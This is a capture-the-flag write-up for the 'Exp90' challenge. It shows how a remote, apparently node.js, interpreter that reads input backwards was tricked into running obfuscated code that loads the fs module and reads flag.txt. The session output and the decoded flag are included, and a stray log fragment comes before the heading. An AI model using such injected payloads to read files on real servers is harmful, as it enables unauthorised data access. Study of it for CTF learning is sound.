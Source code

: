 $)'txtt5678.01234g67890a23456l89012f45678'01234(67890c23456n89012y45678S01234e67890l23456i89012F45678d01234a67890e23456r89012.45678s01234f67890=23456a01234
<Buffer 49 57 7b 53 68 6f 63 6b 65 64 2d 66 6f 72 2d 6e 6f 74 68 69 6e 67 21 7d>
$aa
<Buffer 49 57 7b 53 68 6f 63 6b 65 64 2d 66 6f 72 2d 6e 6f 74 68 69 6e 67 21 7d>
$echo '49 57 7b 53 68 6f 63 6b 65 64 2d 66 6f 72 2d 6e 6f 74 68 69 6e 67 21 7d' | xxd -r -p
[SyntaxError: Unexpected token ILLEGAL]
$^C      
root@bkthpc:~/Bureau/CTF/ctf# echo '49 57 7b 53 68 6f 63 6b 65 64 2d 66 6f 72 2d 6e 6f 74 68 69 6e 67 21 7d' | xxd -r -p
IW{Shocked-for-nothing!}

# Exp90

## Description
```
We are given an IP address and a port to connect to, upon connecting we juste have a greeting message and what seems to be an interepreter
```

## Solution

After poking around, we could see that the interpreter did not have a straightforward behavior.
The error messages seemed to indicate that it was a javascript interpreter (most likely node.js).

We first tried to do some simple variable declaration such as a=2. After testing many things it appeared to us that the interpreter was reading backwards and only took some characters to form the string to evaluate.

For example in order to declare a=2, you would need to input 22==aa

Knowing that it was most likely node.js and the previous challenges had flag.txt file in the same directory we tried to read the file

In node.js this would be equivalent to:

```
fs=require('fs')
a=fs.readFileSync('flag.txt')
```

We did not script anything or tried to had the formula used by the interpreter, instead we what we did is try to supply an integer that was interpreted to a number with as many digits as the number of chars in what wanted to be interpreted. And from that, we replaced the number that were output by the letters:

We ended up with the following

```
fs=require('fs') => )'sf45678'01234(67890e23456r89012i45678u01234q67890e23456r89012=45678s01234f67890
a=fs.readFileSync('flag.txt') => 'txtt5678.01234g67890a23456l89012f45678'01234(67890c23456n89012y45678S01234e67890l23456i89012F45678d01234a67890e23456r89012.45678s01234f67890=23456a01234
```



## Results
```
Welcome and have fun!
$)'sf45678'01234(67890e23456r89012i45678u01234q67890e23456r89012=45678s01234f67890
{ Stats: [Function],
  F_OK: 0,
  R_OK: 4,
  W_OK: 2,
  X_OK: 1,
  access: [Function],
  accessSync: [Function],
  exists: [Function],
  existsSync: [Function],
  readFile: [Function],
  readFileSync: [Function],
  close: [Function],
  closeSync: [Function],
  open: [Function],
  openSync: [Function],
  read: [Function],
  readSync: [Function],
  write: [Function],
  writeSync: [Function],
  rename: [Function],
  renameSync: [Function],
  truncate: [Function],
  truncateSync: [Function],
  ftruncate: [Function],
  ftruncateSync: [Function],
  rmdir: [Function],
  rmdirSync: [Function],
  fdatasync: [Function],
  fdatasyncSync: [Function],
  fsync: [Function],
  fsyncSync: [Function],
  mkdir: [Function],
  mkdirSync: [Function],
  readdir: [Function],
  readdirSync: [Function],
  fstat: [Function],
  lstat: [Function],
  stat: [Function],
  fstatSync: [Function],
  lstatSync: [Function],
  statSync: [Function],
  readlink: [Function],
  readlinkSync: [Function],
  symlink: [Function],
  symlinkSync: [Function],
  link: [Function],
  linkSync: [Function],
  unlink: [Function],
  unlinkSync: [Function],
  fchmod: [Function],
  fchmodSync: [Function],
  chmod: [Function],
  chmodSync: [Function],
  fchown: [Function],
  fchownSync: [Function],
  chown: [Function],
  chownSync: [Function],
  _toUnixTimestamp: [Function: toUnixTimestamp],
  utimes: [Function],
  utimesSync: [Function],
  futimes: [Function],
  futimesSync: [Function],
  writeFile: [Function],
  writeFileSync: [Function],
  appendFile: [Function],
  appendFileSync: [Function],
  watch: [Function],
  watchFile: [Function],
  unwatchFile: [Function],
  realpathSync: [Function: realpathSync],
  realpath: [Function: realpath],
  createReadStream: [Function],
  ReadStream: 
   { [Function: ReadStream]
     super_: 
      { [Function: Readable]
        ReadableState: [Function: ReadableState],
        super_: [Object],
        _fromList: [Function: fromList] } },
  FileReadStream: 
   { [Function: ReadStream]
     super_: 
      { [Function: Readable]
        ReadableState: [Function: ReadableState],
        super_: [Object],
        _fromList: [Function: fromList] } },
  createWriteStream: [Function],
  WriteStream: 
   { [Function: WriteStream]
     super_: { [Function: Writable] WritableState: [Function: WritableState], super_: [Object] } },
  FileWriteStream: 
   { [Function: WriteStream]
     super_: { [Function: Writable] WritableState: [Function: WritableState], super_: [Object] } } }
$)'txtt5678.01234g67890a23456l89012f45678'01234(67890c23456n89012y45678S01234e67890l23456i89012F45678d01234a67890e23456r89012.45678s01234f67890=23456a01234
<Buffer 49 57 7b 53 68 6f 63 6b 65 64 2d 66 6f 72 2d 6e 6f 74 68 69 6e 67 21 7d>

echo '49 57 7b 53 68 6f 63 6b 65 64 2d 66 6f 72 2d 6e 6f 74 68 69 6e 67 21 7d' | xxd -r -p
IW{Shocked-for-nothing!}
```
